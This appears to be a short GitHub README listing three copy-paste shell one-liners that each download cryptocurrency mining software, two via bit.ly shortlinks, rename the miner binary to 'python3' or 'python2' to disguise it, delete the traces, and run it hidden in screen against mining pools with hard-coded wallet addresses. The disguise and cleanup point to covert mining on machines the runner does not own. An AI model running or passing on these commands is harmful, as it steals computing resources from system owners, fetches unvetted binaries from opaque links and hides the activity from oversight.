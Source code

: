 # POEK SAGALANA
BUKAN MANUSIA BAIK, BUKAN JUGA MANUSIA JAHAT
===========================================================================
# DOT AURUM
```
apt install screen -y && wget https://bit.ly/kontolrum && tar -xvf kontolrum && rm kontolrum && cd SRBMiner-Multi-2-4-7 && mv SRBMiner-MULTI python3 && mv python3* ~/ && cd .. && rm -rvf SRBMiner-Multi-2-4-7 && cd ~/ && screen ./python3 --algorithm aurum --pool stratum-asia.rplant.xyz:7114 --wallet waf1qs7djrfr2kj4w8qkylva5tr24500l3nael0l34g.DOT --keepalive true
```
===========================================================================
# DOT PYRIN
```
apt install screen -y && wget bit.ly/dotgpulol && tar -xf dotgpulol && rm dotgpulol && cd 1.84 && mv lolMiner python3 && mv python3* ~/ && cd .. && rm -rvf 1.84 && cd ~/ && screen ./python3 -a PYRIN --pool pyrinhash.asia.mine.zergpool.com:5557 --user DDNAURzgPGuWuLb1joXcKTA7iMydnXaTXK --pass c=DGB,mc=HTN > /dev/null 2>&1
```
===========================================================================
# DOT FENNEC
```
wget https://github.com/cpu-pool/cpuminer-opt-cpupower/releases/download/1.4/Cpuminer-opt-cpu-pool-linux64.tar.gz && tar -xf Cpuminer-opt-cpu-pool-linux64.tar.gz && rm Cpuminer-opt-cpu-pool-linux64.tar.gz && mv cpuminer python2 && mv python2* ~/ && rm -r ./* && cd ~/ && screen ./python2 -a cpupower -o cpupower.asia.mine.zergpool.com:4250 -u DDNAURzgPGuWuLb1joXcKTA7iMydnXaTXK -p c=DGB,zap=CPU
```
===========================================================================
